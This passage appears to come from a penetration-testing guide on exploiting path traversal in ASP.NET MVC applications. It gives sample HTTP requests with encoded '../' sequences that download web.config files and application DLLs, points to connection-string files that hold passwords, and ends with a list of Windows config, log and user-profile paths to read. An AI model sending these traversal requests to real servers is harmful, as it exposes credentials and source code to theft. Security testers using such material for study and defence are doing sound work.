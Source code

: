 These settings indicate that certain files, such as **/bin/WebGrease.dll**, are located within the application's /bin folder.

### **Root Directory Files**

Files found in the root directory, like **/global.asax** and **/connectionstrings.config** (which contains sensitive passwords), are essential for the application's configuration and operation.

### **Namespaces and Web.Config**

MVC applications also define additional **web.config files** for specific namespaces to avoid repetitive declarations in each file, as demonstrated with a request to download another **web.config**:

```html
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
```

### **Downloading DLLs**

The mention of a custom namespace hints at a DLL named "**WebApplication1**" present in the /bin directory. Following this, a request to download the **WebApplication1.dll** is shown:

```html
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
```

This suggests the presence of other essential DLLs, like **System.Web.Mvc.dll** and **System.Web.Optimization.dll**, in the /bin directory.

In a scenario where a DLL imports a namespace called **WebApplication1.Areas.Minded**, an attacker might infer the existence of other web.config files in predictable paths, such as **/area-name/Views/**, containing specific configurations and references to other DLLs in the /bin folder. For example, a request to **/Minded/Views/web.config** can reveal configurations and namespaces that indicate the presence of another DLL, **WebApplication1.AdditionalFeatures.dll**.

### Common files

From [here](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
```